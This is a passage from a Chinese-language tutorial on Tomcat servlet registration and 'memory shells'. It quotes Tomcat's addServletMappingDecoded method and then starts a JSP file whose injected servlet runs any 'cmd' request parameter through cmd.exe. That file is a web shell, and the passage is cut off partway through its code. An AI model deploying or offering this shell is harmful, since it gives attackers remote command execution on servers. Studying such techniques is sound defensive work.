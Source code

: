 这个方法调用了 StandardContext 的 addServletMappingDecoded 方法，添加 URL 路径与 Wrapper 对象的映射

```plain
@Override
public void addServletMappingDecoded(String pattern, String name, boolean jspWildCard) {
    // Validate the proposed mapping
    if (findChild(name) == null) {
        throw new IllegalArgumentException(sm.getString("standardContext.servletMap.name", name));
    }
    String adjustedPattern = adjustURLPattern(pattern);
    if (!validateURLPattern(adjustedPattern)) {
        throw new IllegalArgumentException(sm.getString("standardContext.servletMap.pattern", adjustedPattern));
    }

    // Add this mapping to our registered set
    synchronized (servletMappingsLock) {
        String name2 = servletMappings.get(adjustedPattern);
        if (name2 != null) {
            // Don't allow more than one servlet on the same pattern
            Wrapper wrapper = (Wrapper) findChild(name2);
            wrapper.removeMapping(adjustedPattern);
        }
        // 这里
        servletMappings.put(adjustedPattern, name);
    }
    Wrapper wrapper = (Wrapper) findChild(name);
    wrapper.addMapping(adjustedPattern);

    fireContainerEvent("addServletMapping", adjustedPattern);
}
```

通过这个方法在 servletMappings 中添加 URL 路径与 name 的映射

### 6.3 Servlet 内存马

servletMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/19
  Time: 18:43
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<% class MyServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        if(req.getParameter("cmd") != null) {
            InputStream in = null;
            try {
                in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", req.getParameter("cmd")}).getInputStream();
                Scanner scanner = new Scanner(in).useDelimiter("\\A");
                String out = scanner.hasNext()?scanner.next():"";
```
